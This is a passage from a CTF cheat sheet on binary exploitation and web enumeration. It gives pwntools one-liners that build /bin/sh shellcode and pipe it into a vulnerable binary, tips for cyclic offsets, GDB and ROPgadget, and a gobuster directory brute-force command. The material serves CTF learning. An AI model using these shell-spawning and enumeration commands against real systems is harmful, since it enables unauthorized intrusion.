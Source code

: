 Quick shellcode to spawn `/bin/sh`:
```bash
python -c "import pwn; print(pwn.asm(pwn.shellcraft.linux.sh()))"
```

---

#### 🔁 Pipe Shellcode into Vulnerable Binary
```bash
(python -c "import pwn; print(pwn.asm(pwn.shellcraft.linux.sh()))"; cat) | ./vuln
```

- Combines shellcode and standard input to exploit buffer in real time.
- `cat` keeps the session alive after payload injection.

---

### 🎯 Pro Tips for CTFs:

- **Set architecture** for shellcode:
```python
context.arch = 'amd64'  # or 'i386'
```

- **Debug with GDB:**
```bash
gdb ./vuln
```

- **Use pattern generation to find offset:**
```bash
pwn cyclic 100
pwn cyclic -l <crash_value>
```

- **Attach `pwntools` debugger**:
```python
p = gdb.debug("./vuln", gdbscript="b *main\ncontinue")
```

- **Use `ROPgadget` to find useful instructions** for ret2libc or ROP chaining.

---

### 🚪 Gobuster – Directory & File Enumeration

Gobuster is a fast, flexible tool used to brute-force directories, files, and virtual hosts on web servers—critical for discovering hidden content during CTFs.

---

#### 🔍 Basic Directory Enumeration
```bash
gobuster dir -u http://<IP_ADDRESS> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
- Use default extensions or combine with `-x php,txt,bak` for better results.

---
